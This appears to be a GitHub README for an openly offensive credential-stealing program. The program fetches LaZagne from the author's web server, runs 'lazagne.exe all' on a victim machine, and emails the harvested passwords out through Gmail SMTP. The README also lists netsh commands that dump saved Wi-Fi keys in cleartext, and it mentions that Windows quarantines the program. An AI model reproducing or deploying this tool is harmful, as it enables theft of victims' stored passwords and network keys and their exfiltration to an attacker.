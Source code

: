 # Send stored passwords of victim
The program downloads the <code>LaZagne</code> tool and use it to obtain saved passwords on the machine and then reports the results of the execution of the following command in a mail for a specified address:
<pre lang="bash"><code>lazagne.exe all</code></pre>
In this case the download is done on a remote machine that works as a web server for the program and so the program makes a GET request for <code>/files/lazagne.exe</code> w.r.t. Web root folder.<br>
In the program, the get request was for the resource <i>http://10.0.2.15/files/lazagne.exe</i> where <i>10.0.2.15</i> is the address of my remote machine that works as Web Server.
### Alternative commands on victim machine
You could also perform the following commands, instead of execution of <code>lazagne.exe</code>:
<details><summary><b><i>Detect all the names of Wi-Fi networks saved on the victim machine</i></b></summary>
<pre lang="bash"><code>netsh wlan show profile</code></pre>
</details>
<details><summary><b><i>Detect info of a specific Wi-Fi network of them saved on the victim machine</i></b></summary>
<pre lang="bash"><code>netsh wlan show profile NAME_NET</code></pre>
where <b>NAME_NET</b> is the name of the network for which we want to obtain info.
</details>
<details><summary><b><i>Detect info of a specific Wi-Fi network and its key of them saved on the victim machine</i></b></summary>
<pre lang="bash"><code>netsh wlan show profile NAME_NET key=clear</code></pre>
where <b>NAME_NET</b> is the name of the network for which we want to obtain info.
</details>

### Credentials file
To run correctly the program, you need to add a file, called <code>credentials.txt</code> in the same directory of the program. The file must contains a line with this info in this format:
<pre lang="bash"><code>example@gmail.com password</code></pre>
where <b>example@gmail.com</b> must be replaced by the google mail (<i>smtp.gmail.com</i> that works on port <i>587</i>) that you want to use and <b>password</b> is the relative password.<br>
Sometimes Windows put the program in quarantine. Remember that you need to abilitate less secure apps reception, because by default Google prevents the reception of e-mail by not trusted apps.
